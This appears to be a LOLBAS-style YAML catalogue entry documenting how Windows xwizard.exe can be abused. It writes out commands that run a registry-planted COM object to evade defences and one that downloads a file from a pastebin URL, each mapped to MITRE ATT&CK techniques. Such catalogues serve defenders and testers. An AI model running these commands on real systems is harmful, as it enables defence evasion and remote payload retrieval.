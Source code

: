 ```yaml
---
Name: Xwizard.exe
Description:
Author: "Oddvar Moe"
Created: "2018-05-25"
Commands:
  - Command: xwizard RunWizard {00000001-0000-0000-0000-0000FEEDACDC}
    Description: Xwizard.exe running a custom class that has been added to the registry.
    Usecase: Run a com object created in registry to evade defensive counter measures
    Category: Execute
    Privileges: User
    MitreID: T1218
    MitreLink: https://attack.mitre.org/wiki/Technique/T1218
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: xwizard RunWizard /taero /u {00000001-0000-0000-0000-0000FEEDACDC}
    Description: Xwizard.exe running a custom class that has been added to the registry. The /t and /u switch prevent an error message in later Windows 10 builds.
    Usecase: Run a com object created in registry to evade defensive counter measures
    Category: Execute
    Privileges: User
    MitreID: T1218
    MitreLink: https://attack.mitre.org/wiki/Technique/T1218
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: xwizard RunWizard {7940acf8-60ba-4213-a7c3-f3b400ee266d} /zhttps://pastebin.com/raw/iLxUT5gM
    Description: Xwizard.exe uses RemoteApp and Desktop Connections wizard to download a file.
    Usecase: Download file from Internet
    Category: Download
    Privileges: User
    MitreID: T1105
    MitreLink: https://attack.mitre.org/wiki/Technique/T1105
    OperatingSystem: Windows 10
Full_Path:
  - Path: C:\Windows\System32\xwizard.exe
  - Path: C:\Windows\SysWOW64\xwizard.exe
Code_Sample:
  - Code:
Detection:
  - IOC:
Resources:
  - Link: http://www.hexacorn.com/blog/2017/07/31/the-wizard-of-x-oppa-plugx-style/
  - Link: https://www.youtube.com/watch?v=LwDHX7DVHWU
  - Link: https://gist.github.com/NickTyrer/0598b60112eaafe6d07789f7964290d5
  - Link: https://bohops.com/2018/08/18/abusing-the-com-registry-structure-part-2-loading-techniques-for-evasion-and-persistence/
  - Link: https://twitter.com/notwhickey/status/1306023056847110144
Acknowledgement:
  - Person: Adam
    Handle: "@Hexacorn"
  - Person: Nick Tyrer
    Handle: "@NickTyrer"
  - Person: harr0ey
    Handle: "@harr0ey"
  - Person: Wade Hickey
    Handle: "@notwhickey"
---
```

